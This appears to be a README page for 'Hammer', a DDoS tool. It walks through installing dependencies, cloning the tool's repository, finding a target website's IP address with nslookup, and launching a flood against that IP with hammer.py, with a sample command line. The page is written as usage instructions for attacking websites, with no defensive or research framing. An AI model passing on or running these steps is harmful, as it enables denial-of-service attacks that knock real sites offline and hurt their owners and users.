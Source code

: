 # hammar
ddos attack


$ apt update
$ apt upgrade
$ apt install python
$ apt install git
$ apt install dnsutils
$ git clone https://github.com/cyberanand1337x/Hammer/

Hammer need the Name Server of a website which you want to attack...
To get the Name Server...just type
$ nslookup example.com
Note the IP Address of that Website

then
$ cd Hammer
$ python hammer.py -s [ip Address] -t 135
example:
$ python hammer.py -s 123.45.67.89 -t 135

Video Tutorial: How to use Hammer Watch it
